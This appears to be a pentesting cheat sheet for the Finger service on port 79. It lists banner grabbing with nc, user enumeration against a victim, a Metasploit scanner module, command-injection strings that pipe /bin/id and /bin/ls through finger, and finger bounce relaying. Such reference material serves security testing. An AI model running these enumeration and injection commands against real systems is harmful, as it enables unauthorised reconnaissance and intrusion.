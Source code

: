 # 79 - Pentesting Finger

## **Basic Info**

**Finger** is a program you can use to find information about computer users. It usually lists the login name, the full name, and possibly other details about the user you are fingering. These details may include the office location and phone number \(if known\), login time, idle time, time mail was last read, and the user's plan and project files.

**Default port:** 79

```text
PORT   STATE SERVICE
79/tcp open  finger
```

## **Banner Grabbing/Basic connection**

```
nc -vn <IP> 79
```

## **User enumeration**

### **Manual**

```text
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```

#### **Nmap execute a script for doing using default scripts**

### Metasploit uses more tricks than Nmap

```text
use auxiliary/scanner/finger/finger_users
```

## Command execution

```text
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```

## Finger Bounce

[Use a system as a finger relay](https://securiteam.com/exploits/2BUQ2RFQ0I/)

```text
finger user@host@victim
finger @internal@external
```

